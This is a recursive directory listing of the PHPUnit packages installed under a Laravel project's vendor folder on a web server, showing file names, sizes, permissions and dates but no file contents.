-rw-r--r-- 1 www-data www-data 1.9K Apr  2  2017 README.md
-rw-r--r-- 1 www-data www-data  794 Apr  2  2017 build.xml
-rw-r--r-- 1 www-data www-data 1.4K Apr  2  2017 composer.json
-rw-r--r-- 1 www-data www-data  627 Apr  2  2017 phpunit.xml
drwxr-xr-x 6 www-data www-data 4.0K Apr  2  2017 src
drwxr-xr-x 4 www-data www-data 4.0K Apr  2  2017 tests

/var/www/laravel/vendor/phpunit/php-code-coverage/.github:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  215 Apr  2  2017 CONTRIBUTING.md
-rw-r--r-- 1 www-data www-data  720 Apr  2  2017 ISSUE_TEMPLATE.md

/var/www/laravel/vendor/phpunit/php-code-coverage/src:
total 64K
drwxr-xr-x 6 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  30K Apr  2  2017 CodeCoverage.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 Driver
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 Exception
-rw-r--r-- 1 www-data www-data 4.0K Apr  2  2017 Filter.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 Node
drwxr-xr-x 4 www-data www-data 4.0K Apr  2  2017 Report
-rw-r--r-- 1 www-data www-data 1013 Apr  2  2017 Util.php

/var/www/laravel/vendor/phpunit/php-code-coverage/src/Driver:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  2  2017 ..
-rw-r--r-- 1 www-data www-data 1.1K Apr  2  2017 Driver.php
-rw-r--r-- 1 www-data www-data  643 Apr  2  2017 HHVM.php
-rw-r--r-- 1 www-data www-data 2.9K Apr  2  2017 PHPDBG.php
-rw-r--r-- 1 www-data www-data 2.8K Apr  2  2017 Xdebug.php

/var/www/laravel/vendor/phpunit/php-code-coverage/src/Exception:
total 32K
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  2  2017 ..
-rw-r--r-- 1 www-data www-data  432 Apr  2  2017 CoveredCodeNotExecutedException.php
-rw-r--r-- 1 www-data www-data  382 Apr  2  2017 Exception.php
-rw-r--r-- 1 www-data www-data  999 Apr  2  2017 InvalidArgumentException.php
-rw-r--r-- 1 www-data www-data  436 Apr  2  2017 MissingCoversAnnotationException.php
-rw-r--r-- 1 www-data www-data  368 Apr  2  2017 RuntimeException.php
-rw-r--r-- 1 www-data www-data 1.2K Apr  2  2017 UnintentionallyCoveredCodeException.php

/var/www/laravel/vendor/phpunit/php-code-coverage/src/Node:
total 60K
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  2  2017 ..
-rw-r--r-- 1 www-data www-data 7.0K Apr  2  2017 AbstractNode.php
-rw-r--r-- 1 www-data www-data 5.6K Apr  2  2017 Builder.php
-rw-r--r-- 1 www-data www-data 9.8K Apr  2  2017 Directory.php
-rw-r--r-- 1 www-data www-data  20K Apr  2  2017 File.php
-rw-r--r-- 1 www-data www-data 2.0K Apr  2  2017 Iterator.php

/var/www/laravel/vendor/phpunit/php-code-coverage/src/Report:
total 52K
drwxr-xr-x 4 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  2  2017 ..
-rw-r--r-- 1 www-data www-data 9.8K Apr  2  2017 Clover.php
-rw-r--r-- 1 www-data www-data 5.7K Apr  2  2017 Crap4j.php
drwxr-xr-x 3 www-data www-data 4.0K Apr  2  2017 Html
-rw-r--r-- 1 www-data www-data 1.3K Apr  2  2017 PHP.php
-rw-r--r-- 1 www-data www-data 8.6K Apr  2  2017 Text.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 Xml

/var/www/laravel/vendor/phpunit/php-code-coverage/src/Report/Html:
total 32K
drwxr-xr-x 3 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  2  2017 ..
-rw-r--r-- 1 www-data www-data 5.3K Apr  2  2017 Facade.php
drwxr-xr-x 3 www-data www-data 4.0K Apr  2  2017 Renderer
-rw-r--r-- 1 www-data www-data 8.7K Apr  2  2017 Renderer.php

/var/www/laravel/vendor/phpunit/php-code-coverage/src/Report/Html/Renderer:
total 48K
drwxr-xr-x 3 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  2  2017 ..
-rw-r--r-- 1 www-data www-data 9.7K Apr  2  2017 Dashboard.php
-rw-r--r-- 1 www-data www-data 3.3K Apr  2  2017 Directory.php
-rw-r--r-- 1 www-data www-data  19K Apr  2  2017 File.php
drwxr-xr-x 5 www-data www-data 4.0K Apr  2  2017 Template

/var/www/laravel/vendor/phpunit/php-code-coverage/src/Report/Html/Renderer/Template:
total 52K
drwxr-xr-x 5 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  2  2017 ..
-rw-r--r-- 1 www-data www-data  305 Apr  2  2017 coverage_bar.html.dist
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 css
-rw-r--r-- 1 www-data www-data 7.0K Apr  2  2017 dashboard.html.dist
-rw-r--r-- 1 www-data www-data 2.1K Apr  2  2017 directory.html.dist
-rw-r--r-- 1 www-data www-data  821 Apr  2  2017 directory_item.html.dist
-rw-r--r-- 1 www-data www-data 2.7K Apr  2  2017 file.html.dist
-rw-r--r-- 1 www-data www-data  871 Apr  2  2017 file_item.html.dist
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 fonts
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 js
-rw-r--r-- 1 www-data www-data  632 Apr  2  2017 method_item.html.dist

/var/www/laravel/vendor/phpunit/php-code-coverage/src/Report/Html/Renderer/Template/css:
total 144K
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  2  2017 ..
-rw-r--r-- 1 www-data www-data 119K Apr  2  2017 bootstrap.min.css
-rw-r--r-- 1 www-data www-data 9.4K Apr  2  2017 nv.d3.min.css
-rw-r--r-- 1 www-data www-data 1.8K Apr  2  2017 style.css

/var/www/laravel/vendor/phpunit/php-code-coverage/src/Report/Html/Renderer/Template/fonts:
total 228K
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  2  2017 ..
-rw-r--r-- 1 www-data www-data  20K Apr  2  2017 glyphicons-halflings-regular.eot
-rw-r--r-- 1 www-data www-data 107K Apr  2  2017 glyphicons-halflings-regular.svg
-rw-r--r-- 1 www-data www-data  45K Apr  2  2017 glyphicons-halflings-regular.ttf
-rw-r--r-- 1 www-data www-data  23K Apr  2  2017 glyphicons-halflings-regular.woff
-rw-r--r-- 1 www-data www-data  18K Apr  2  2017 glyphicons-halflings-regular.woff2

/var/www/laravel/vendor/phpunit/php-code-coverage/src/Report/Html/Renderer/Template/js:
total 552K
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  2  2017 ..
-rw-r--r-- 1 www-data www-data  37K Apr  2  2017 bootstrap.min.js
-rw-r--r-- 1 www-data www-data 149K Apr  2  2017 d3.min.js
-rw-r--r-- 1 www-data www-data  28K Apr  2  2017 holder.min.js
-rw-r--r-- 1 www-data www-data  11K Apr  2  2017 html5shiv.min.js
-rw-r--r-- 1 www-data www-data  85K Apr  2  2017 jquery.min.js
-rw-r--r-- 1 www-data www-data 213K Apr  2  2017 nv.d3.min.js
-rw-r--r-- 1 www-data www-data 4.3K Apr  2  2017 respond.min.js

/var/www/laravel/vendor/phpunit/php-code-coverage/src/Report/Xml:
total 56K
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  2  2017 ..
-rw-r--r-- 1 www-data www-data 1.6K Apr  2  2017 Coverage.php
-rw-r--r-- 1 www-data www-data  338 Apr  2  2017 Directory.php
-rw-r--r-- 1 www-data www-data 6.8K Apr  2  2017 Facade.php
-rw-r--r-- 1 www-data www-data 1.8K Apr  2  2017 File.php
-rw-r--r-- 1 www-data www-data 1.4K Apr  2  2017 Method.php
-rw-r--r-- 1 www-data www-data 2.0K Apr  2  2017 Node.php
-rw-r--r-- 1 www-data www-data 1.6K Apr  2  2017 Project.php
-rw-r--r-- 1 www-data www-data 1.7K Apr  2  2017 Report.php
-rw-r--r-- 1 www-data www-data 1.6K Apr  2  2017 Tests.php
-rw-r--r-- 1 www-data www-data 3.7K Apr  2  2017 Totals.php
-rw-r--r-- 1 www-data www-data 2.6K Apr  2  2017 Unit.php

/var/www/laravel/vendor/phpunit/php-code-coverage/tests:
total 32K
drwxr-xr-x 4 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 9.1K Apr  2  2017 TestCase.php
drwxr-xr-x 3 www-data www-data 4.0K Apr  2  2017 _files
-rw-r--r-- 1 www-data www-data  136 Apr  2  2017 bootstrap.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 tests

/var/www/laravel/vendor/phpunit/php-code-coverage/tests/_files:
total 212K
drwxr-xr-x 3 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  2  2017 ..
-rw-r--r-- 1 www-data www-data 1.7K Apr  2  2017 BankAccount-clover.xml
-rw-r--r-- 1 www-data www-data 1.9K Apr  2  2017 BankAccount-crap4j.xml
-rw-r--r-- 1 www-data www-data  224 Apr  2  2017 BankAccount-text.txt
-rw-r--r-- 1 www-data www-data  630 Apr  2  2017 BankAccount.php
-rw-r--r-- 1 www-data www-data 1.5K Apr  2  2017 BankAccountTest.php
-rw-r--r-- 1 www-data www-data  238 Apr  2  2017 CoverageClassExtendedTest.php
-rw-r--r-- 1 www-data www-data  220 Apr  2  2017 CoverageClassTest.php
-rw-r--r-- 1 www-data www-data  207 Apr  2  2017 CoverageFunctionParenthesesTest.php
-rw-r--r-- 1 www-data www-data  219 Apr  2  2017 CoverageFunctionParenthesesWhitespaceTest.php
-rw-r--r-- 1 www-data www-data  194 Apr  2  2017 CoverageFunctionTest.php
-rw-r--r-- 1 www-data www-data  241 Apr  2  2017 CoverageMethodOneLineAnnotationTest.php
-rw-r--r-- 1 www-data www-data  248 Apr  2  2017 CoverageMethodParenthesesTest.php
-rw-r--r-- 1 www-data www-data  260 Apr  2  2017 CoverageMethodParenthesesWhitespaceTest.php
-rw-r--r-- 1 www-data www-data  235 Apr  2  2017 CoverageMethodTest.php
-rw-r--r-- 1 www-data www-data  175 Apr  2  2017 CoverageNoneTest.php
-rw-r--r-- 1 www-data www-data  237 Apr  2  2017 CoverageNotPrivateTest.php
-rw-r--r-- 1 www-data www-data  241 Apr  2  2017 CoverageNotProtectedTest.php
-rw-r--r-- 1 www-data www-data  235 Apr  2  2017 CoverageNotPublicTest.php
-rw-r--r-- 1 www-data www-data  258 Apr  2  2017 CoverageNothingTest.php
-rw-r--r-- 1 www-data www-data  233 Apr  2  2017 CoveragePrivateTest.php
-rw-r--r-- 1 www-data www-data  237 Apr  2  2017 CoverageProtectedTest.php
-rw-r--r-- 1 www-data www-data  231 Apr  2  2017 CoveragePublicTest.php
-rw-r--r-- 1 www-data www-data  331 Apr  2  2017 CoverageTwoDefaultClassAnnotations.php
-rw-r--r-- 1 www-data www-data  587 Apr  2  2017 CoveredClass.php
-rw-r--r-- 1 www-data www-data   36 Apr  2  2017 CoveredFunction.php
-rw-r--r-- 1 www-data www-data  255 Apr  2  2017 NamespaceCoverageClassExtendedTest.php
-rw-r--r-- 1 www-data www-data  237 Apr  2  2017 NamespaceCoverageClassTest.php
-rw-r--r-- 1 www-data www-data  296 Apr  2  2017 NamespaceCoverageCoversClassPublicTest.php
-rw-r--r-- 1 www-data www-data  517 Apr  2  2017 NamespaceCoverageCoversClassTest.php
-rw-r--r-- 1 www-data www-data  252 Apr  2  2017 NamespaceCoverageMethodTest.php
-rw-r--r-- 1 www-data www-data  254 Apr  2  2017 NamespaceCoverageNotPrivateTest.php
-rw-r--r-- 1 www-data www-data  258 Apr  2  2017 NamespaceCoverageNotProtectedTest.php
-rw-r--r-- 1 www-data www-data  252 Apr  2  2017 NamespaceCoverageNotPublicTest.php
-rw-r--r-- 1 www-data www-data  250 Apr  2  2017 NamespaceCoveragePrivateTest.php
-rw-r--r-- 1 www-data www-data  254 Apr  2  2017 NamespaceCoverageProtectedTest.php
-rw-r--r-- 1 www-data www-data  248 Apr  2  2017 NamespaceCoveragePublicTest.php
-rw-r--r-- 1 www-data www-data  603 Apr  2  2017 NamespaceCoveredClass.php
-rw-r--r-- 1 www-data www-data  384 Apr  2  2017 NotExistingCoveredElementTest.php
drwxr-xr-x 4 www-data www-data 4.0K Apr  2  2017 Report
-rw-r--r-- 1 www-data www-data 1.5K Apr  2  2017 class-with-anonymous-function-clover.xml
-rw-r--r-- 1 www-data www-data 1.3K Apr  2  2017 class-with-anonymous-function-crap4j.xml
-rw-r--r-- 1 www-data www-data  254 Apr  2  2017 class-with-anonymous-function-text.txt
-rw-r--r-- 1 www-data www-data 1.1K Apr  2  2017 ignored-lines-clover.xml
-rw-r--r-- 1 www-data www-data 1.1K Apr  2  2017 ignored-lines-crap4j.xml
-rw-r--r-- 1 www-data www-data  119 Apr  2  2017 ignored-lines-text.txt
-rw-r--r-- 1 www-data www-data  385 Apr  2  2017 source_with_class_and_anonymous_function.php
-rw-r--r-- 1 www-data www-data  391 Apr  2  2017 source_with_ignore.php
-rw-r--r-- 1 www-data www-data  236 Apr  2  2017 source_with_namespace.php
-rw-r--r-- 1 www-data www-data  508 Apr  2  2017 source_with_oneline_annotations.php
-rw-r--r-- 1 www-data www-data   44 Apr  2  2017 source_without_ignore.php
-rw-r--r-- 1 www-data www-data  198 Apr  2  2017 source_without_namespace.php

/var/www/laravel/vendor/phpunit/php-code-coverage/tests/_files/Report:
total 16K
drwxr-xr-x 4 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  2  2017 ..
drwxr-xr-x 5 www-data www-data 4.0K Apr  2  2017 HTML
drwxr-xr-x 5 www-data www-data 4.0K Apr  2  2017 XML

/var/www/laravel/vendor/phpunit/php-code-coverage/tests/_files/Report/HTML:
total 20K
drwxr-xr-x 5 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  2  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 CoverageForBankAccount
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 CoverageForClassWithAnonymousFunction
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 CoverageForFileWithIgnoredLines

/var/www/laravel/vendor/phpunit/php-code-coverage/tests/_files/Report/HTML/CoverageForBankAccount:
total 48K
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  2  2017 ..
-rw-r--r-- 1 www-data www-data  22K Apr  2  2017 BankAccount.php.html
-rw-r--r-- 1 www-data www-data 7.6K Apr  2  2017 dashboard.html
-rw-r--r-- 1 www-data www-data 4.9K Apr  2  2017 index.html

/var/www/laravel/vendor/phpunit/php-code-coverage/tests/_files/Report/HTML/CoverageForClassWithAnonymousFunction:
total 40K
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  2  2017 ..
-rw-r--r-- 1 www-data www-data 7.5K Apr  2  2017 dashboard.html
-rw-r--r-- 1 www-data www-data 4.9K Apr  2  2017 index.html
-rw-r--r-- 1 www-data www-data  15K Apr  2  2017 source_with_class_and_anonymous_function.php.html

/var/www/laravel/vendor/phpunit/php-code-coverage/tests/_files/Report/HTML/CoverageForFileWithIgnoredLines:
total 36K
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  2  2017 ..
-rw-r--r-- 1 www-data www-data 7.0K Apr  2  2017 dashboard.html
-rw-r--r-- 1 www-data www-data 3.7K Apr  2  2017 index.html
-rw-r--r-- 1 www-data www-data  16K Apr  2  2017 source_with_ignore.php.html

/var/www/laravel/vendor/phpunit/php-code-coverage/tests/_files/Report/XML:
total 20K
drwxr-xr-x 5 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  2  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 CoverageForBankAccount
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 CoverageForClassWithAnonymousFunction
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 CoverageForFileWithIgnoredLines

/var/www/laravel/vendor/phpunit/php-code-coverage/tests/_files/Report/XML/CoverageForBankAccount:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  2  2017 ..
-rw-r--r-- 1 www-data www-data 1.9K Apr  2  2017 BankAccount.php.xml
-rw-r--r-- 1 www-data www-data 1.4K Apr  2  2017 index.xml

/var/www/laravel/vendor/phpunit/php-code-coverage/tests/_files/Report/XML/CoverageForClassWithAnonymousFunction:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  2  2017 ..
-rw-r--r-- 1 www-data www-data 1.1K Apr  2  2017 index.xml
-rw-r--r-- 1 www-data www-data 1.7K Apr  2  2017 source_with_class_and_anonymous_function.php.xml

/var/www/laravel/vendor/phpunit/php-code-coverage/tests/_files/Report/XML/CoverageForFileWithIgnoredLines:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  2  2017 ..
-rw-r--r-- 1 www-data www-data 1.1K Apr  2  2017 index.xml
-rw-r--r-- 1 www-data www-data 1.3K Apr  2  2017 source_with_ignore.php.xml

/var/www/laravel/vendor/phpunit/php-code-coverage/tests/tests:
total 64K
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  2  2017 ..
-rw-r--r-- 1 www-data www-data 7.7K Apr  2  2017 BuilderTest.php
-rw-r--r-- 1 www-data www-data 1.4K Apr  2  2017 CloverTest.php
-rw-r--r-- 1 www-data www-data  14K Apr  2  2017 CodeCoverageTest.php
-rw-r--r-- 1 www-data www-data 1.4K Apr  2  2017 Crap4jTest.php
-rw-r--r-- 1 www-data www-data 7.3K Apr  2  2017 FilterTest.php
-rw-r--r-- 1 www-data www-data 3.4K Apr  2  2017 HTMLTest.php
-rw-r--r-- 1 www-data www-data 1.5K Apr  2  2017 TextTest.php
-rw-r--r-- 1 www-data www-data  671 Apr  2  2017 UtilTest.php
-rw-r--r-- 1 www-data www-data 3.1K Apr  2  2017 XMLTest.php

/var/www/laravel/vendor/phpunit/php-file-iterator:
total 36K
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   15 Oct  3  2016 .gitattributes
-rw-r--r-- 1 www-data www-data   98 Oct  3  2016 .gitignore
-rw-r--r-- 1 www-data www-data  302 Oct  3  2016 ChangeLog.md
-rw-r--r-- 1 www-data www-data 1.6K Oct  3  2016 LICENSE
-rw-r--r-- 1 www-data www-data  412 Oct  3  2016 README.md
-rw-r--r-- 1 www-data www-data  878 Oct  3  2016 composer.json
drwxr-xr-x 2 www-data www-data 4.0K Oct  3  2016 src

/var/www/laravel/vendor/phpunit/php-file-iterator/src:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Oct  3  2016 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 3.0K Oct  3  2016 Facade.php
-rw-r--r-- 1 www-data www-data 2.4K Oct  3  2016 Factory.php
-rw-r--r-- 1 www-data www-data 3.9K Oct  3  2016 Iterator.php

/var/www/laravel/vendor/phpunit/php-text-template:
total 32K
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   15 Jun 21  2015 .gitattributes
-rw-r--r-- 1 www-data www-data   46 Jun 21  2015 .gitignore
-rw-r--r-- 1 www-data www-data 1.6K Jun 21  2015 LICENSE
-rw-r--r-- 1 www-data www-data  412 Jun 21  2015 README.md
-rw-r--r-- 1 www-data www-data  653 Jun 21  2015 composer.json
drwxr-xr-x 2 www-data www-data 4.0K Jun 21  2015 src

/var/www/laravel/vendor/phpunit/php-text-template/src:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Jun 21  2015 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 2.9K Jun 21  2015 Template.php

/var/www/laravel/vendor/phpunit/php-timer:
total 44K
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   15 Feb 26  2017 .gitattributes
-rw-r--r-- 1 www-data www-data   31 Feb 26  2017 .gitignore
-rw-r--r-- 1 www-data www-data  391 Feb 26  2017 .travis.yml
-rw-r--r-- 1 www-data www-data 1.6K Feb 26  2017 LICENSE
-rw-r--r-- 1 www-data www-data 1022 Feb 26  2017 README.md
-rw-r--r-- 1 www-data www-data  813 Feb 26  2017 composer.json
-rw-r--r-- 1 www-data www-data  693 Feb 26  2017 phpunit.xml
drwxr-xr-x 2 www-data www-data 4.0K Feb 26  2017 src
drwxr-xr-x 2 www-data www-data 4.0K Feb 26  2017 tests

/var/www/laravel/vendor/phpunit/php-timer/src:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Feb 26  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 2.3K Feb 26  2017 Timer.php

/var/www/laravel/vendor/phpunit/php-timer/tests:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Feb 26  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 2.6K Feb 26  2017 TimerTest.php

/var/www/laravel/vendor/phpunit/php-token-stream:
total 48K
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   15 Feb 27  2017 .gitattributes
-rw-r--r-- 1 www-data www-data   45 Feb 27  2017 .gitignore
-rw-r--r-- 1 www-data www-data  428 Feb 27  2017 .travis.yml
-rw-r--r-- 1 www-data www-data 1.6K Feb 27  2017 LICENSE
-rw-r--r-- 1 www-data www-data  565 Feb 27  2017 README.md
drwxr-xr-x 2 www-data www-data 4.0K Feb 27  2017 build
-rw-r--r-- 1 www-data www-data 1.1K Feb 27  2017 build.xml
-rw-r--r-- 1 www-data www-data  812 Feb 27  2017 composer.json
drwxr-xr-x 3 www-data www-data 4.0K Feb 27  2017 src
drwxr-xr-x 4 www-data www-data 4.0K Feb 27  2017 tests

/var/www/laravel/vendor/phpunit/php-token-stream/build:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Feb 27  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  479 Feb 27  2017 phpunit.xml

/var/www/laravel/vendor/phpunit/php-token-stream/src:
total 40K
drwxr-xr-x 3 www-data www-data 4.0K Feb 27  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Feb 27  2017 Token
-rw-r--r-- 1 www-data www-data  25K Feb 27  2017 Token.php

/var/www/laravel/vendor/phpunit/php-token-stream/src/Token:
total 32K
drwxr-xr-x 3 www-data www-data 4.0K Feb 27  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 27  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Feb 27  2017 Stream
-rw-r--r-- 1 www-data www-data  17K Feb 27  2017 Stream.php

/var/www/laravel/vendor/phpunit/php-token-stream/src/Token/Stream:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Feb 27  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 27  2017 ..
-rw-r--r-- 1 www-data www-data 1.3K Feb 27  2017 CachingFactory.php

/var/www/laravel/vendor/phpunit/php-token-stream/tests:
total 24K
drwxr-xr-x 4 www-data www-data 4.0K Feb 27  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Feb 27  2017 Token
-rw-r--r-- 1 www-data www-data 1.1K Feb 27  2017 TokenTest.php
drwxr-xr-x 2 www-data www-data 4.0K Feb 27  2017 _fixture
-rw-r--r-- 1 www-data www-data  155 Feb 27  2017 bootstrap.php

/var/www/laravel/vendor/phpunit/php-token-stream/tests/Token:
total 40K
drwxr-xr-x 2 www-data www-data 4.0K Feb 27  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Feb 27  2017 ..
-rw-r--r-- 1 www-data www-data 3.5K Feb 27  2017 ClassTest.php
-rw-r--r-- 1 www-data www-data 3.1K Feb 27  2017 ClosureTest.php
-rw-r--r-- 1 www-data www-data 4.4K Feb 27  2017 FunctionTest.php
-rw-r--r-- 1 www-data www-data 2.1K Feb 27  2017 IncludeTest.php
-rw-r--r-- 1 www-data www-data 5.8K Feb 27  2017 InterfaceTest.php
-rw-r--r-- 1 www-data www-data 2.5K Feb 27  2017 NamespaceTest.php

/var/www/laravel/vendor/phpunit/php-token-stream/tests/_fixture:
total 72K
drwxr-xr-x 2 www-data www-data 4.0K Feb 27  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Feb 27  2017 ..
-rw-r--r-- 1 www-data www-data  105 Feb 27  2017 classExtendsNamespacedClass.php
-rw-r--r-- 1 www-data www-data   46 Feb 27  2017 classInNamespace.php
-rw-r--r-- 1 www-data www-data   66 Feb 27  2017 classInScopedNamespace.php
-rw-r--r-- 1 www-data www-data   58 Feb 27  2017 classUsesNamespacedFunction.php
-rw-r--r-- 1 www-data www-data  356 Feb 27  2017 class_with_method_that_declares_anonymous_class.php
-rw-r--r-- 1 www-data www-data  248 Feb 27  2017 class_with_method_that_declares_anonymous_class2.php
-rw-r--r-- 1 www-data www-data  259 Feb 27  2017 closure.php
-rw-r--r-- 1 www-data www-data   26 Feb 27  2017 issue19.php
-rw-r--r-- 1 www-data www-data   85 Feb 27  2017 issue30.php
-rw-r--r-- 1 www-data www-data   97 Feb 27  2017 multipleNamespacesWithOneClassUsingBraces.php
-rw-r--r-- 1 www-data www-data  125 Feb 27  2017 multipleNamespacesWithOneClassUsingNonBraceSyntax.php
-rw-r--r-- 1 www-data www-data  468 Feb 27  2017 source.php
-rw-r--r-- 1 www-data www-data  109 Feb 27  2017 source2.php
-rw-r--r-- 1 www-data www-data  305 Feb 27  2017 source3.php
-rw-r--r-- 1 www-data www-data  436 Feb 27  2017 source4.php
-rw-r--r-- 1 www-data www-data  275 Feb 27  2017 source5.php

/var/www/laravel/vendor/phpunit/phpunit:
total 200K
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x  9 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data   38 Apr  3  2017 .gitattributes
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .github
-rw-r--r--  1 www-data www-data  273 Apr  3  2017 .gitignore
-rw-r--r--  1 www-data www-data 3.0K Apr  3  2017 .php_cs
-rw-r--r--  1 www-data www-data   50 Apr  3  2017 .stickler.yml
-rw-r--r--  1 www-data www-data 1.4K Apr  3  2017 .travis.yml
-rw-r--r--  1 www-data www-data 7.7K Apr  3  2017 ChangeLog-4.0.md
-rw-r--r--  1 www-data www-data 3.5K Apr  3  2017 ChangeLog-4.1.md
-rw-r--r--  1 www-data www-data 2.4K Apr  3  2017 ChangeLog-4.2.md
-rw-r--r--  1 www-data www-data 2.5K Apr  3  2017 ChangeLog-4.3.md
-rw-r--r--  1 www-data www-data 2.3K Apr  3  2017 ChangeLog-4.4.md
-rw-r--r--  1 www-data www-data 1.3K Apr  3  2017 ChangeLog-4.5.md
-rw-r--r--  1 www-data www-data 4.1K Apr  3  2017 ChangeLog-4.6.md
-rw-r--r--  1 www-data www-data 3.0K Apr  3  2017 ChangeLog-4.7.md
-rw-r--r--  1 www-data www-data  12K Apr  3  2017 ChangeLog-4.8.md
-rw-r--r--  1 www-data www-data 6.2K Apr  3  2017 ChangeLog-5.0.md
-rw-r--r--  1 www-data www-data 2.7K Apr  3  2017 ChangeLog-5.1.md
-rw-r--r--  1 www-data www-data 5.0K Apr  3  2017 ChangeLog-5.2.md
-rw-r--r--  1 www-data www-data 2.6K Apr  3  2017 ChangeLog-5.3.md
-rw-r--r--  1 www-data www-data 4.4K Apr  3  2017 ChangeLog-5.4.md
-rw-r--r--  1 www-data www-data 2.8K Apr  3  2017 ChangeLog-5.5.md
-rw-r--r--  1 www-data www-data 3.7K Apr  3  2017 ChangeLog-5.6.md
-rw-r--r--  1 www-data www-data 9.0K Apr  3  2017 ChangeLog-5.7.md
